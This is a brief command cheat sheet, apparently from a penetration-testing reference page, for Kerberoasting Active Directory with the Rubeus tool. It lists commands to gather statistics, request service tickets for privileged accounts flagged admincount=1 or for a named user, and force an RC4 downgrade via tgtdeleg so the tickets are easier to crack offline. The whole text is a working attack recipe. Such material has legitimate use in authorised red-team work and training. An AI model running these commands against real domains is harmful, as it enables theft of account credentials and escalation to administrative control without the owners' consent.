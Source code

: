 

Getting stats
```powershell-session
.\Rubeus.exe kerberoast /stats
```

Extracting tickets with admincount flag set
```powershell-session
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```

Extracting tickets for specific user account
```powershell-session
.\Rubeus.exe kerberoast /user:testspn /nowrap
```

Using tgtdeleg to downgrade aes to rc4

.\Rubeus.exe kerberoast /tgtdeleg /user:testspn /nowrap